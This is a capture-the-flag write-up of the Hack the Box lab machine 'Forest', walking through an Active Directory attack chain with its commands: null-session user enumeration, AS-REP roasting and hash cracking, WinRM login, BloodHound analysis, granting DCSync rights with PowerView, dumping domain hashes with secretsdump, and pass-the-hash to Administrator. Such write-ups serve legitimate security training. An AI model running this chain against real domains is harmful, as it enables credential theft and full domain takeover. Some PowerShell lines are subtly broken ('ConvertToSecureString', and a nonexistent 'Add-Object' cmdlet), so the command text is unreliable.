# Forest
**Date:** January 14th 2024

**Author:** j.info

**Link:** [**Forest**](https://app.hackthebox.com/machines/212) on Hack the Box

**Hack the Box Difficulty Rating:** Easy

<br>



<br>

## Objectives
- User flag
- Root flag

<br>

## Initial Enumeration

### Nmap Scan

`nmap -sC -sV -p- -oN nmap --min-rate=4500 forest`

```
PORT      STATE SERVICE      VERSION
53/tcp    open  domain       Simple DNS Plus
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2024-01-14 14:38:59Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf       .NET Message Framing
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49671/tcp open  msrpc        Microsoft Windows RPC
49676/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49677/tcp open  msrpc        Microsoft Windows RPC
49681/tcp open  msrpc        Microsoft Windows RPC
49698/tcp open  msrpc        Microsoft Windows RPC
64635/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2024-01-14T06:39:53-08:00
|_clock-skew: mean: 2h46m49s, deviation: 4h37m09s, median: 6m48s
| smb2-time: 
|   date: 2024-01-14T14:39:55
|_  start_date: 2024-01-14T14:33:26
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

<br>

Also ran a quick top 200 UDP ports scan and see the usuals.

PORT     STATE         SERVICE
53/udp   open          domain
88/udp   open          kerberos-sec
123/udp  open          ntp
```

<br>

### SMB Digging

I try and enumerate shares using a null session with crackmapexec and get an access denied message, even though it shows the null session as successful.

`crackmapexec smb forest -u '' -p '' --shares`



Since the null session was successful I try and enuemrate users, which fails with it's usual method but succeeds with SAMRPC.

`crackmapexec smb forest -u '' -p '' --users`



You can also use rpcclient to get this list of users along with some additional info from the description field, which can sometimes contain passwords but in this case does not. We only get some last names for the users.

`rpcclient -U''%'' forest` then `querydispinfo`



I add those users to a file called users.txt and then check for both kerberoasting and asreproasting. No kerberoastable users but we do get a hash back checking for asreproasting.

`crackmapexec ldap forest -u users.txt -p '' --asreproast asrep.hash`



Let's see if we can crack that hash with hashcat. I check to see the mode with `hashcat --show asrep.hash` and see it's 18200.



The hash cracks pretty quickly using rockyou.

`hashcat -m 18200 asrep.hash ~/rockyou.txt`



I try and connect over with impacket-psexec, impacket-smbexec, and impacket-wmiexec but none of them work.



<br>

## System Access

The WinRM ports are open so I give evil-winrm a try and am able to connect over with the found credentials.

`evil-winrm -i forest -u 'svc-alfresco' -p '<REDACTED>'`



<br>

## System Enumeration

You can find the user.txt flag on the svc-alfresco desktop:



I upload and start up winPEAS to see what it finds, which isn't a lot.

Checking `whoami /priv` doesn't list any privileges we can use for escalation.

I upload SharpHound.exe and run it, then download the results and import them into Bloodhound.

Running the "Find Shorest Paths to Domain Admins" query shows that the Exchange Windows Permission@HTB.LOCAL group has WriteDacl permissions on the domain.



I check our permissions on the Exchange Windows Permission@HTB.LOCAL group by setting the start node to our svc-alfresco@HTB.LOCAL account and the end node to Exchange Windows Permission@HTB.LOCAL and it shows that we have GenericAll access over it since we're a member of service accounts, which is a member of privileged it accounts, which is a member of account operators.



So we should be able to modify the DACL and give ourselves permissions to DCSync.

I first add myself to the Exchange Windows Permission group.

`net group "Exchange Windows Permissions" svc-alfresco /add`



But a minute or two later the user was removed from the group and no longer there. So I try and create a new user and add it. After waiting a couple minutes it's still there so we should be good now.

NOTE: We're able to add users because we're a member of the "Account Operators" group.

`net user jdotinfo Password1 /add /domain`

`net group "Exchange Windows Permissions" jdotinfo /add`



We can now use PowerView to grant ourselves DCSync rights. You can read more about how to do that reading [**this article**](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/dump-password-hashes-from-domain-controller-with-dcsync). I load PowerView, create a credential object, and then grant DCSync rights.

`. .\PowerView.ps1`

`$SecPassword = ConvertToSecureString 'Password1' -AsPlaintext -Force`

`$Cred = New-Object System.Management.Automation.PSCredential('HTB\jdotinfo', $SecPassword)`

`Add-Object -Credential $Cred -PrincipalIdentity jdotinfo -Rights DCSync`



Then I use impacket-secretsdump to DCSync the Administrator account and grab their NTLM hash.

`impacket-secretsdump jdotinfo:Password1@forest -outputfile hashes.txt`



I try and crack that hash but no luck.

<br>

## Root

With the Administrators hash I try and pass the hash with evil-winrm and it works.

`evil-winrm -i forest -u Administrator -H '<REDACTED>'`



You can find the root.txt flag on the Administrator's desktop.



<br>

With that we've completed this CTF!



<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap**
- Enumerating SMB shares with **crackmapexec**
- Using **rpcclient** to find valid users
- Finding a user vulnerable to **asreproasting** and cracking the hash with **hashcat**
- Using **evil-winrm** to connect to the system with the credentials that were recovered
- Gathering domain info with **SharpHound** and importing it into **BloodHound** for analysis
- Discovering our user is a member of privileged groups including **Account Operators**
